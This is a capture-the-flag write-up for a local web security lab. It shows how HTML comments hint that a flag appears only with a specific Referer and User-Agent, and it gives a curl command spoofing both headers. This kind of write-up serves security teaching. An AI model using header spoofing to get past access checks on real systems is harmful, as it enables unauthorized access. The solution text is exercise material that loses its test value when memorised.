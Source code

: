 # flag 7 | redirect 2

For this flag, we will need to be in [this page](http://192.168.56.104/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f)

On the html source code, we can see many comments

```html
<!--You must come from : "https://www.nsa.gov/".-->
```

```html
<!--Let's use this browser : "ft_bornToSec". It will help you a lot.-->
```

So we will make a curl request with the user agent `ft_bornToSec` and the referer `https://www.nsa.gov/`

```bash
curl -A "ft_bornToSec" -e "https://www.nsa.gov/" http://192.168.56.104/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f | grep flag
```